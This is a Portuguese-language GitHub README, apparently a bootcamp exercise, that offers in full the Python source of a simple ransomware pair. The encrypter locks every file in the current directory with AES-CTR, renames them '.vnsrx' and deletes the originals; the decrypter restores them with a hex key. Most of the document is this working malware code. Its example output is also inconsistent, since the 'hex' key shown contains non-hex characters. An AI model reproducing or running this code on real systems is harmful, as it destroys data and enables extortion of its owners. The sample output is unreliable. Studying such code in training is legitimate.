 
# Ransomware - Criptografia de Dados (AES-256)

![Segmento](https://img.shields.io/badge/Segmento_:-Segurança_da_Informação-blue?style=flat-square)
![Tecnologias](https://img.shields.io/badge/Tecnologias_:-Python_,_AES256-lightyellow?style=flat-square) 
![Ano](https://img.shields.io/badge/Ano_:-2024-darkred?style=flat-square)

Esta é a minha resposta ao último desafio de código oferecido pelo Bootcamp de Cibersegurança 2 - Santander.

## Objetivo

Implemente um Ransomware para criptografar arquivos utilizando a linguagem Python.

## Estrutura - Encrypter e Decrypter

Este script em python para criptografa os arquivos existentes no diretório em que está usando a criptografia AES-256. O script gera automaticamente uma chave aleatória, criptografa todos os arquivos no diretório atual (exceto o próprio script e arquivos já criptografados) e remove os arquivos originais após a criptografia.

Estes são scripts em Python utilizados para criptografar arquivos usando AES-256 e para descriptografar arquivos previamente criptografados. Ambos os scripts ajudam a proteger seus dados de forma segura e eficiente. Mas, em mãos erradas, podem causar danos e perdas.

## Funcionalidades

### Encrypter

* **Criptografia AES-256**: Garante alta segurança ao criptografar arquivos com uma chave de 256 bits.
* **Geração Automática de Chave**: Cria uma chave aleatória e segura para a criptografia.
* **Criptografia Seletiva**: Evita criptografar diretórios, arquivos já criptografados e o próprio script.
* **Remoção de Arquivos Originais**: Exclui os arquivos originais após a criptografia.

### Decrypter

* **Descriptografia AES-256**: Recupera os arquivos criptografados utilizando a chave original.
* **Identificação Automática**: Identifica arquivos criptografados pela extensão .vnsrx.
* **Limpeza**: Remove os arquivos criptografados após a descriptografia bem-sucedida.

## Requisitos

Python 3.x

Biblioteca pyaes (instale via pip, caso ainda não tenha):

 ```bash
pip install pyaes
 ```

## Como Usar

**Criptografia de Arquivos**

* Clone o repositório ou baixe o arquivo do script de criptografia.
* Coloque o script no diretório que contém os arquivos que você deseja criptografar.
* Execute o script de criptografia:

 ```bash
python3 encrypter.py
 ```

  O script gerará uma chave de criptografia aleatória e a exibirá em formato hexadecimal. Guarde essa chave com segurança, pois ela será necessária para descriptografar os arquivos posteriormente.

  O script criptografará todos os arquivos no diretório, adicionando a extensão .vnsrx aos arquivos criptografados, e excluirá os arquivos originais.

Descriptografia de Arquivos

* Certifique-se de ter a chave utilizada na criptografia.
* Baixe ou execute o script de descriptografia no mesmo diretório onde estão os arquivos criptografados.
* Execute o script de descriptografia:

 ```bash
python3 decrypter.py
 ```

Insira a chave de descriptografia em formato hexadecimal quando solicitado. O script descriptografará todos os arquivos e os salvará sem a extensão .vnsrx, removendo os arquivos criptografados.

## Exemplo de Saída

**Script de Criptografia**

 ```bash
Chave gerada: 5f2c5e4d7a8b3c9a10d4e5a6f7b8c9d0e1f2a3b4c5d6e7f8a9b0c1d2e3f4g5h6
Arquivo exemplo.txt criptografado com sucesso e salvo como exemplo.txt.vnsrx!
Arquivo original exemplo.txt foi removido.
Todos os arquivos foram criptografados.
 ```

**Script de Descriptografia**

 ```bash
Digite a chave de descriptografia em formato hexadecimal (64 caracteres): 5f2c5e4d7a8b3c9a10d4e5a6f7b8c9d0e1f2a3b4c5d6e7f8a9b0c1d2e3f4g5h6
Arquivo exemplo.txt.vnsrx descriptografado com sucesso e salvo como exemplo.txt!
Arquivo criptografado exemplo.txt.vnsrx foi removido.
Todos os arquivos criptografados foram descriptografados e removidos.
 ```
## Observações

* **Segurança da Chave**: As chaves de criptografia e descriptografia não são salvas pelos scripts. Certifique-se de armazená-las com segurança.

* **Processo Irreversível**: Após a criptografia ou descriptografia, os arquivos originais ou criptografados são excluídos permanentemente. Garanta que você salvou a chave antes de executar os scripts.

## Os Códigos em Pyhton

**ENCRYPTER**

 ```bash
import os
import pyaes
import os
import random
import string

def generate_random_key(length=32):
    """Gera uma chave aleatória de bytes usando os.urandom para segurança criptográfica."""
    return os.urandom(length)

def encrypt_file(file_name, key):
    # Lê os dados do arquivo
    with open(file_name, "rb") as file:
        file_data = file.read()

    # Cria um objeto AES com AES-256
    aes = pyaes.AESModeOfOperationCTR(key)

    # Criptografa os dados
    encrypted_data = aes.encrypt(file_data)

    # Salva os dados criptografados em um novo arquivo com a extensão .vnsrx
    new_file_name = file_name + ".vnsrx"
    with open(new_file_name, "wb") as file:
        file.write(encrypted_data)

    print(f"Arquivo {file_name} criptografado com sucesso e salvo como {new_file_name}!")

    # Verifica se o arquivo criptografado foi criado com sucesso
    if os.path.isfile(new_file_name):
        # Remove o arquivo original
        os.remove(file_name)
        print(f"Arquivo original {file_name} foi removido.")
    else:
        print(f"Erro: O arquivo criptografado {new_file_name} não foi criado. O arquivo original não será removido.")

def main():
    # Gera uma chave aleatória de 32 bytes
    key = generate_random_key(32)

    print(f"Chave gerada: {key.hex()}")  # Exibe a chave em formato hexadecimal

    # Nome do arquivo do script
    script_name = os.path.basename(__file__)

    # Lista todos os arquivos no diretório atual
    for file_name in os.listdir('.'):
        # Ignora diretórios, arquivos já criptografados e o próprio script
        if os.path.isfile(file_name) and not file_name.endswith('.vnsrx') and file_name != script_name:
            encrypt_file(file_name, key)

    print("Todos os arquivos foram criptografados.")

if __name__ == "__main__":
    main()
 ```

**DECRYPTER**

 ```bash
import os
import pyaes

def decrypt_file(file_name, key):
    # Lê os dados do arquivo criptografado
    with open(file_name, "rb") as file:
        encrypted_data = file.read()

    # Cria um objeto AES
    aes = pyaes.AESModeOfOperationCTR(key)

    # Descriptografa os dados
    decrypted_data = aes.decrypt(encrypted_data)

    # Salva os dados descriptografados em um novo arquivo sem a extensão .vnsrx
    new_file_name = file_name.replace('.vnsrx', '')
    with open(new_file_name, "wb") as file:
        file.write(decrypted_data)

    print(f"Arquivo {file_name} descriptografado com sucesso e salvo como {new_file_name}!")

    # Verifica se o arquivo descriptografado foi criado com sucesso
    if os.path.isfile(new_file_name):
        # Remove o arquivo criptografado
        os.remove(file_name)
        print(f"Arquivo criptografado {file_name} foi removido.")
    else:
        print(f"Erro: O arquivo descriptografado {new_file_name} não foi criado. O arquivo criptografado não será removido.")

def main():
    # Solicita ao usuário que insira a chave de descriptografia em formato hexadecimal
    key_hex = input("Digite a chave de descriptografia em formato hexadecimal (64 caracteres): ").strip()

    # Verifica se a chave tem exatamente 64 caracteres (32 bytes em hexadecimal)
    if len(key_hex) != 64:
        print("A chave deve ter exatamente 64 caracteres em formato hexadecimal.")
        return

    # Converte a chave de hexadecimal para bytes
    key = bytes.fromhex(key_hex)

    # Lista todos os arquivos no diretório atual
    for file_name in os.listdir('.'):
        # Verifica se o arquivo é criptografado
        if os.path.isfile(file_name) and file_name.endswith('.vnsrx'):
            decrypt_file(file_name, key)

    print("Todos os arquivos criptografados foram descriptografados e removidos.")

if __name__ == "__main__":
    main()
   ```



 ```bash
Não criptografe esse documento, por favor! Ele é importante para a participação no Bootcamp de Cibersegurança - Santander #2
                                                       - DIO 2025 -
 ```


